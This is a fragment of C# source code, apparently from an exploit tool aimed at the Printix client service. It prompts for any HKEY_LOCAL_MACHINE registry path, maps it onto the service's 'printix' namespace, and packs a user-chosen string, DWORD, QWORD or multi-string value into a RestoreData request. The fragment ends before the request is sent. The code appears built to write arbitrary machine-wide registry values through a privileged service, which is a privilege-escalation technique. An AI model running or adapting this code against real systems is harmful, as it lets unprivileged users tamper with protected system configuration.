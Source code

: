                 PersistentRegistryData persistentRegistryData = new PersistentRegistryData();
                persistentRegistryData.cmd = PersistentRegistryCmds.RestoreData;
                persistentRegistryData.VDIType = 12; //(int)DefaultValues.VDIType;
                                                     //persistentRegistryData.path = "printix\\SOFTWARE\\Intel\\HeciServer\\das\\SocketServiceName";
                Console.WriteLine("\n What Node starting from \\\\Local-Machine\\ would you like to select? \n");
                Console.WriteLine("Example: HKEY_LOCAL_MACHINE\\SOFTWARE\\Intel\\HeciServer\\das\\SocketServiceName\n");
                Console.WriteLine("You can only change values in HKEY_LOCAL_MACHINE");
                Console.Write("Registry Node: ");
                persistentRegistryData.path = "" + Console.ReadLine().Replace("HKEY_LOCAL_MACHINE","printix");
                Console.WriteLine("Full Address Set To:  " + persistentRegistryData.path);

                //persistentRegistryData.registryData = new byte[2];
                //byte[] loader = selectDataType("Intel(R) Capability Licensing stuffidkreally", RegistryValueKind.String);

                Console.WriteLine("\n What Data type are you using? \n1. String 2. Dword  3. Qword 4. Multi String  \n");
                Console.Write("Type:  ");
                int dataF = int.Parse(Console.ReadLine());
                Console.WriteLine("Set Data to: " + dataF);

                Console.WriteLine("\n What value is your type?  \n");
                Console.Write("Value:  ");
                string dataB = Console.ReadLine();
                Console.WriteLine("Set Data to: " + dataF);

                byte[] loader = null;
                List<byte> byteContainer = new List<byte>();
                //Dword = 4
                //SET THIS NUMBER TO THE TYPE OF DATA YOU ARE USING! (CHECK ABOVE FUNCITON selectDataType()!)

                switch (dataF)
                {
                    case (1):

                        loader = selectDataType(dataB, RegistryValueKind.String);
                        byteContainer.Add(1);
                        break;
                    case (2):
                        loader = selectDataType(int.Parse(dataB), RegistryValueKind.DWord);
                        byteContainer.Add(4);
                        break;
                    case (3):
                        loader = selectDataType(long.Parse(dataB), RegistryValueKind.QWord);
                        byteContainer.Add(11);
                        break;
                    case (4):
                        loader = selectDataType(dataB.Split('%'), RegistryValueKind.MultiString);
                        byteContainer.Add(7);
                        break;

                }

                int pathHolder = 0;
                foreach (byte bit in loader)
                {
                    pathHolder++;
                    byteContainer.Add(bit);
                }
